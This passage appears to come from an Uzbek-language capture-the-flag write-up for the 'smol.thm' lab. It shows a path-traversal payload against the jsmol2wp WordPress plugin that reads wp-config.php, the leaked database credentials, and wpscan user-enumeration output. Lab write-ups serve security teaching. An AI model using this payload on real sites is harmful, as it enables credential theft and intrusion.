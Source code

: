 Qo'llash:

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

Natija:

```

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```



Foydalanuvchilarni enumerate qilamiz.

Buyruq:

```
wpscan --url http://www.smol.thm/ --enumerate u
```

Natija:

```

[i] User(s) Identified:

[+] Jose Mario Llado Marti
 | Found By: Rss Generator (Passive Detection)

[+] wordpress user
 | Found By: Rss Generator (Passive Detection)

[+] admin
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://www.smol.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] think
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://www.smol.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] wp
 | Found By: Wp Json Api (Aggressive Detection)
```